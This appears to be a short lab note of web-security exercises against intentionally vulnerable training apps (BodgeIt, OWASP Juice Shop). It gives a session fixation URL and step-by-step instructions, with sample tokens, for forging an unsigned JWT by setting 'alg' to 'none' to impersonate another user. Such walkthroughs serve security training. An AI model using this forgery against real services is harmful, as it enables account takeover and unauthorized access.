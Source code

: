 # A2 - Broken Authentication and Session Management

## Session fixation

`http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF`

## JWT

**JuiceShop**

* Log in as any user to receive a valid JWT in the `Authorization` header.
* Copy the JWT (i.e. everything after `Bearer` in the `Authorization` header) and decode it.
* Under the `payload` property, change the `email` attribute in the JSON to `jwtn3d@juice-sh.op`.
* Change the value of the `alg` property in the header part from `HS256` to `none`.
* Encode the header to `base64url`. Similarly, encode the payload to `base64url`. `base64url` makes it URL safe, a regular `Base64` encode might not work!
* Join the two strings obtained above with a `.` (dot symbol) and add a `.` at the end of the obtained string. So, effectively it becomes `base64url(header).base64url(payload).`
* Change the `Authorization` header of a subsequent request to the retrieved JWT (prefixed with `Bearer` as before) and submit the request. Alternatively you can set the `token` cookie to the JWT which be used to populate any future request with that header.

You will start with something like this:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTcsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJwZW50ZXN0QGNpdGFkZWxvLmNvbSIsInBhc3N3b3JkIjoiNmEyODQxNTU5MDZjMjZjYmNhMjBjNTMzNzZiYzYzYWMiLCJyb2xlIjoiY3VzdG9tZXIiLCJsYXN0TG9naW5JcCI6IjAuMC4wLjAiLCJwcm9maWxlSW1hZ2UiOiJkZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAyMC0xMS0wMiAxMzo0Mjo0OC41MzUgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAyMC0xMS0wMiAxMzo0Mjo0OC41MzUgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNjA0MzI0NTgwLCJleHAiOjE2MDQzNDI1ODB9.Je66KESQrX5RP729cztb3YKDa6NeLSPcXRO9VtIun6Zs5GFgLvG7uU0QLyBY-JFimH0cEQF06uyz7r7uHCL3FOXc3pGf4pv7YqHs3kp6DsigLAhdZFLwwmX4MxdCdQTmZdnQsUoeVGMTSS4p1uy-i37bofvs97IvWHRhNQmPeqs
```

And finish with something like this:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTcsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJqd3RuM2RAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6IjZhMjg0MTU1OTA2YzI2Y2JjYTIwYzUzMzc2YmM2M2FjIiwicm9sZSI6ImN1c3RvbWVyIiwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjAtMTEtMDIgMTM6NDI6NDguNTM1ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjAtMTEtMDIgMTM6NDI6NDguNTM1ICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTYwNDMyNDU4MCwiZXhwIjoxNjA0MzQyNTgwfQ.
```
